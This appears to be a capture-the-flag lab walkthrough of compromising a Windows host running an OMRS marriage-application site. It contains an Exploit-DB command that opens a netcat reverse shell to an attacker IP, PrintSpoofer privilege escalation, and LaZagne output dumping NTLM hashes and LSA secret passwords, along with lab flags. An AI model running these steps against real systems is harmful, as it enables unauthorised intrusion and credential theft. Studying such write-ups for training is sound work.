




Host [172.16.1.102](http://172.16.1.102):


In checking the website, it is a marriage application site. In attempting to quickly submit an application after filling it out, I obtained the following results.:


In attempting to find more about what I may be able to use to login as the admin, I found the following when selecting on the "Admin" option from the homepage which should allow me to attempt a bruteforce attack on the password reset page with random numbers as the phone number or using password lists on the regular admin login screen.


I went ahead and checked online for this OMRS site. I immediately found an exploit on exploitdb that was a python script. It quickly allowed me to have a user account created as shown below with a set user and password.:

it also provided the following user:
```
dante-ws03\blake
```

In this case, I was able to execute a reverse shell after finding out that there is a netcat.exe in Blake's directory on the machine in the Desktop folder.:

Attacker machine:
```
proxychains nc -nlvp 555
```

Windows victim machine with the use of the downloaded python script.:
```
proxychains python3 exploit.py -u http://172.16.1.102:80/ -c 'C:\users\blake\Desktop\nc.exe 10.10.16.101 555 -e cmd.exe'
```

Flag:


```
DANTE{U_M4y_Kiss_Th3_Br1d3}
```

From here, I started to check each folder in Blake's directory and I found an executable called PrintSpoofer64.exe in the Downloads folder. After quickly looking this up, I  found that you can easily escalate privileges to root "NT AUTH" using the following.:


```
PrintSpoofer64.exe -i -c cmd
```

Root flag:
```
DANTE{D0nt_M3ss_With_MinatoTW}
```



I found a laz.exe which reminded me of the LaZagne project which gathers up all of the credentials on the Windows system. I ran it and obtained the following.:
```
C:\Users\Administrator\Documents>./laz.exe all
./laz.exe all
'.' is not recognized as an internal or external command,
operable program or batch file.
C:\Users\Administrator\Documents>laz.exe all
laz.exe all
|====================================================================|
|                                                                    |
|                        The LaZagne Project                        |
|                                                                    |
|                          ! BANG BANG !                            |
|                                                                    |
|====================================================================|
[+] System masterkey decrypted for c4d13a5b-2749-4b5a-a7b6-68c0f1a65666
[+] System masterkey decrypted for 7aeff6c8-1ee3-451c-aa30-31cebcf008e9
[+] System masterkey decrypted for 785fade9-4004-4465-83be-f6042d77919f
[+] System masterkey decrypted for 7b4d9074-5f4b-4c0b-9bad-9695241a6b18
[+] System masterkey decrypted for d74bdbac-95f2-484c-af2e-1db10b075f6c
[+] System masterkey decrypted for 124df0f2-d8e3-479c-a889-ff1352b7cc28
[+] System masterkey decrypted for 2c7188da-8048-4047-aa93-57f756a80088
########## User: SYSTEM ##########
------------------- Hashdump passwords -----------------
Administrator:500:aad3b435b51404eeaad3b435b51404ee:03640479a3bd1700fe8c9c5b0db0b354:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:ea1972deca9cad4913c001b9a6c4f998:::
blake:1002:aad3b435b51404eeaad3b435b51404ee:86f16efeb6f8187fa52f3f729896bff7:::
------------------- Lsa_secrets passwords -----------------
_SC_Apache
0000  2C 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ,...............
0010  47 00 5F 00 33 00 74 00 74 00 69 00 6E 00 67 00    G._.3.t.t.i.n.g.
0020  5F 00 68 00 31 00 74 00 63 00 68 00 65 00 64 00    _.h.1.t.c.h.e.d.
0030  21 00 5F 00 75 00 73 00 65 00 72 00 00 00 00 00    !._.u.s.e.r.....
NL$KM
0000  40 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    @...............
0010  DF 56 4B E7 7F FA 5B 0E 58 B6 DD E0 7B BD F4 DF    .VK...[.X...{...
0020  56 0C E4 B4 B7 0B CC 57 EF 64 36 71 AF 36 B7 C6    V......W.d6q.6..
0030  F8 BC 37 9D 00 71 1E A1 80 83 8B 47 F9 6A 93 DC    ..7..q.....G.j..
0040  88 1B 05 18 98 27 B5 53 EA 5E 03 30 C6 FF 13 F3    .....'.S.^.0....
0050  AA E5 F2 C8 64 BA 08 85 A2 A9 DF 62 D3 B3 A4 9B    ....d......b....
DPAPI_SYSTEM
0000  01 00 00 00 8C 31 59 C7 52 F9 A9 AE 2C B3 D1 AD    .....1Y.R...,...
0010  58 9D F0 F6 78 D7 A4 53 66 AB 67 58 90 BD DE 99    X...x..Sf.gX....
0020  9E DE 9B 79 12 B4 09 59 A9 36 AD BB                ...y...Y.6..
L$_SQSA_S-1-5-21-3089243881-3525850343-252262830-1001
0000  18 02 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010  7B 00 22 00 76 00 65 00 72 00 73 00 69 00 6F 00    {.".v.e.r.s.i.o.
0020  6E 00 22 00 3A 00 31 00 2C 00 22 00 71 00 75 00    n.".:.1.,.".q.u.
0030  65 00 73 00 74 00 69 00 6F 00 6E 00 73 00 22 00    e.s.t.i.o.n.s.".
0040  3A 00 5B 00 7B 00 22 00 71 00 75 00 65 00 73 00    :.[.{.".q.u.e.s.
0050  74 00 69 00 6F 00 6E 00 22 00 3A 00 22 00 57 00    t.i.o.n.".:.".W.
0060  68 00 61 00 74 00 20 00 77 00 61 00 73 00 20 00    h.a.t. .w.a.s. .
0070  79 00 6F 00 75 00 72 00 20 00 63 00 68 00 69 00    y.o.u.r. .c.h.i.
0080  6C 00 64 00 68 00 6F 00 6F 00 64 00 20 00 6E 00    l.d.h.o.o.d. .n.
0090  69 00 63 00 6B 00 6E 00 61 00 6D 00 65 00 3F 00    i.c.k.n.a.m.e.?.
00A0  22 00 2C 00 22 00 61 00 6E 00 73 00 77 00 65 00    ".,.".a.n.s.w.e.
00B0  72 00 22 00 3A 00 22 00 57 00 65 00 6C 00 63 00    r.".:.".W.e.l.c.
00C0  6F 00 6D 00 65 00 31 00 22 00 7D 00 2C 00 7B 00    o.m.e.1.".}.,.{.
00D0  22 00 71 00 75 00 65 00 73 00 74 00 69 00 6F 00    ".q.u.e.s.t.i.o.
00E0  6E 00 22 00 3A 00 22 00 57 00 68 00 61 00 74 00    n.".:.".W.h.a.t.
00F0  19 20 73 00 20 00 74 00 68 00 65 00 20 00 6E 00    . s. .t.h.e. .n.
0100  61 00 6D 00 65 00 20 00 6F 00 66 00 20 00 74 00    a.m.e. .o.f. .t.
0110  68 00 65 00 20 00 63 00 69 00 74 00 79 00 20 00    h.e. .c.i.t.y. .
0120  77 00 68 00 65 00 72 00 65 00 20 00 79 00 6F 00    w.h.e.r.e. .y.o.
0130  75 00 72 00 20 00 70 00 61 00 72 00 65 00 6E 00    u.r. .p.a.r.e.n.
0140  74 00 73 00 20 00 6D 00 65 00 74 00 3F 00 22 00    t.s. .m.e.t.?.".
0150  2C 00 22 00 61 00 6E 00 73 00 77 00 65 00 72 00    ,.".a.n.s.w.e.r.
0160  22 00 3A 00 22 00 57 00 65 00 6C 00 63 00 6F 00    ".:.".W.e.l.c.o.
0170  6D 00 65 00 31 00 22 00 7D 00 2C 00 7B 00 22 00    m.e.1.".}.,.{.".
0180  71 00 75 00 65 00 73 00 74 00 69 00 6F 00 6E 00    q.u.e.s.t.i.o.n.
0190  22 00 3A 00 22 00 57 00 68 00 61 00 74 00 19 20    ".:.".W.h.a.t.. 
01A0  73 00 20 00 74 00 68 00 65 00 20 00 6E 00 61 00    s. .t.h.e. .n.a.
01B0  6D 00 65 00 20 00 6F 00 66 00 20 00 74 00 68 00    m.e. .o.f. .t.h.
01C0  65 00 20 00 66 00 69 00 72 00 73 00 74 00 20 00    e. .f.i.r.s.t. .
01D0  73 00 63 00 68 00 6F 00 6F 00 6C 00 20 00 79 00    s.c.h.o.o.l. .y.
01E0  6F 00 75 00 20 00 61 00 74 00 74 00 65 00 6E 00    o.u. .a.t.t.e.n.
01F0  64 00 65 00 64 00 3F 00 22 00 2C 00 22 00 61 00    d.e.d.?.".,.".a.
0200  6E 00 73 00 77 00 65 00 72 00 22 00 3A 00 22 00    n.s.w.e.r.".:.".
0210  57 00 65 00 6C 00 63 00 6F 00 6D 00 65 00 31 00    W.e.l.c.o.m.e.1.
0220  22 00 7D 00 5D 00 7D 00 00 00 00 00 00 00 00 00    ".}.].}.........
DefaultPassword
0000  2E 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010  47 00 5F 00 33 00 74 00 74 00 69 00 6E 00 67 00    G._.3.t.t.i.n.g.
0020  5F 00 68 00 31 00 74 00 63 00 68 00 65 00 64 00    _.h.1.t.c.h.e.d.
0030  21 00 5F 00 61 00 64 00 6D 00 69 00 6E 00 00 00    !._.a.d.m.i.n...
[+] 0 passwords have been found.
For more information launch it again with the -v option
elapsed time = 21.7190001011
```

I found the following file as well but I'm not sure if it is important yet.:
```
Directory of C:\Users\Administrator\Searches
10/11/2020  06:19 AM    <DIR>          .
10/11/2020  06:19 AM    <DIR>          ..
04/27/2020  04:57 AM              852 winrt--{S-1-5-21-3089243881-3525850343-252262830-500}-.searchconnector-ms
              1 File(s)            852 bytes
              2 Dir(s)  9,017,184,256 bytes free
C:\Users\Administrator\Searches>type winrt--{S-1-5-21-3089243881-3525850343-252262830-500}-.searchconnector-ms
type winrt--{S-1-5-21-3089243881-3525850343-252262830-500}-.searchconnector-ms
<?xml version="1.0" encoding="UTF-8"?>
<searchConnectorDescription xmlns="http://schemas.microsoft.com/windows/2009/searchConnector">
  <description></description>
  <isSearchOnlyItem>true</isSearchOnlyItem>
  <includeInStartMenuScope>true</includeInStartMenuScope>
  <templateInfo>
    <folderType>{982725EE-6F47-479E-B447-812BFA7D2E8F}</folderType>
  </templateInfo>
  <simpleLocation>
    <url>winrt://{S-1-5-21-3089243881-3525850343-252262830-500}/</url>
    <serialized>MBAAAEAFCAAAAAAAADAAAAAAAYUgAAQDAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABAAAAAAAAAAAAAAAAAAAAAJAUAwHoB4UccIoClGEiqOCAsCMw0peAEGgAAAAAcHApBgbAIHA0BgOA8CAvAweAMFAtAQMA0CA1AQLAIDAxAQLAMDAwAAOAkDAyAANAMDA4AAOAEDAtAwMAUDAyAQNAgDA1AAMAMDA0AwMA0CAyAQNAIDAyAgNAIDA4AwMAADAtAQNAADAwAQfA8CAAAAAAAAAAAAAAA</serialized>
  </simpleLocation>
</searchConnectorDescription>
C:\Users\Administrator\Searches>
```
